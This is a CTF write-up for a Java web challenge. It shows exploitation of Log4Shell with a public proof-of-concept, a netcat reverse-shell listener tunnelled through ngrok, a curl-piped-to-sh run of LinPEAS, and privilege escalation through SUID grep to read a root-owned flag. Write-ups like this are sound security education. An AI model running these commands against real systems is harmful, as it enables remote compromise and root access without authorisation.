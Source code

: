 # ezLog

> _Failed to solve this during the CTF_  
> _(Solved it with the help of my friend)_

## Challenge Description

This shop sells the freshest of all java coffee

Flag 1 is located at /home/user/flag1.txt

Flag 2 is located at /root/flag2.txt

Note: Replace user to the user you have gained access to

## Initial Look

The challenge is a web challenge  
![screenshot1](assets/screenshot1.jpg)

There are multiple hints in the challenge description and the webpage itself telling us that this is a Java web application.

Let's try to enter some wrong username and password:  
![screenshot2](assets/screenshot2.jpg)

We are greeted with an error page saying "we will **log** your information".

Searching for Java log vulnerabilities reveals that there is a Java Log4j vulnerability. After more searching, I found a [github repo](https://github.com/kozmer/log4j-shell-poc) with a Log4j vulnerability proof-of-concept.

## Setting up the tool

Cloning the repo and installing the required packages:
```
git clone https://github.com/kozmer/log4j-shell-poc.git
```
```
pip install -r requirements.txt
```

Reading the [readme file](https://github.com/kozmer/log4j-shell-poc#getting-the-java-version) we also needed to download an appropriate java version for the program to work.

Use `netcat` to listen for connections on port 4444:
```
nc -lnvp 4444
```

To allow the victim to connect to our local listening port, I'll be using `ngrok`  
![screenshot3](assets/screenshot3.jpg)

Since the proof of concept is made for testing a local server, some modifications are also needed for the python script:  
![screenshot4](assets/screenshot4.jpg)  
![screenshot5](assets/screenshot5.jpg)

## Getting the first flag

running the exploit script:
```
./poc-modified.py --userip 0.tcp.ap.ngrok.io --webport 9000 --lport 13352
```

https://user-images.githubusercontent.com/65378401/179755448-99039bdb-7cf0-4edf-9896-1b7c9bc55ba5.mp4

Flag 1 Captured: `FLAG{f6f7660539def9f18d140d2bde0c18f8}`

## Escalating privileges

Now that we have the 1st flag, it's time to escalate our privileges to read the 2nd flag.

> Remember that in the challenge description, the 2nd flag is located at `/root/flag2.txt`

![screenshot6](assets/screenshot6.jpg)

As expected, we will need root priveleges to read the file. Time to do some privilege escalation.

I used [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) to scan the machine for any vulnerability to exploit.
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

Based on the legend, red/yellow text are what we should be looking out for:  
![screenshot7](assets/screenshot7.jpg)

Scrolling through the output, we found something that looks promising:
![screenshot8](assets/screenshot8.jpg)

I found an [article](https://gtfobins.github.io/gtfobins/grep/#suid) while searching for exploits related to `grep` and `suid`. We might be able to use the grep command to read files with root privileges!

Let's try it out:  
![screenshot9](assets/screenshot9.jpg)

Nice! We successfully got the second flag.

Flag 2 Captured: `FLAG{e5ac253a9968ca228161edc8e01faa8b}`
